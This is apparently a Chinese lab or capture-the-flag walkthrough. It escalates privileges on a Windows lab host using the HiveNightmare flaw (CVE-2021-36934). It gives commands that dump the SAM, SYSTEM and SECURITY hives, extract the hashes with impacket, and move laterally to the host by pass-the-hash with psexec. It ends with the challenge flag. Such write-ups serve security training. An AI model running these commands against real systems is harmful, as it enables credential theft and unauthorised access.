

---

##### 任务14：Hash提权(T - 1068利用漏洞进行权限提升)

查看当前用户信息，检测当前主机是否容易受到攻击：

```
icacls C:\windows\system32\config\sam
```


输出`BUILTIN\Users:(I)(RX)`表示该系统易受攻击。

将`Win10`主机`C:\Users\Administrator\Desktop\工具\exp\CVE-2021-36934`目录下的`HiveNightmare.exe`文件复制粘贴至远程主机`192.168.2.150`的桌面中：


命令行中执行命令：

```
cd Desktop

HiveNightmare.exe
```


桌面出现三个文件：


将这三个文件复制粘贴至`Win10`主机的`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples`目录下，在该目录下打开命令行执行命令：

```
python3 secretsdump.py -sam SAM-2022-06-20 -system SYSTEM-2022-06-20 -security SECURITY-2022-06-20 LOCAL

##SAM-2022-06-20、SYSTEM-2022-06-20、SECURITY-2022-06-20为生成的文件名，请以实际情况进行填写。
```


获取到密码hash：



再执行命令进行横向移动：（需要在WSL上面运行，并且加ProxyChains4）

```
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5d3d0d5e35d5b0c22f7617f472c859c0 administrator@192.168.2.150 cmd.exe
```


查看当前权限：


查看flag：

```
cd C:\

dir /s /b flag.txt
```


查看flag（若无回显可按几次回车）：


```
flag{915C-0005-59BA-73EF-09D0-6E35-AA2A-A088}
```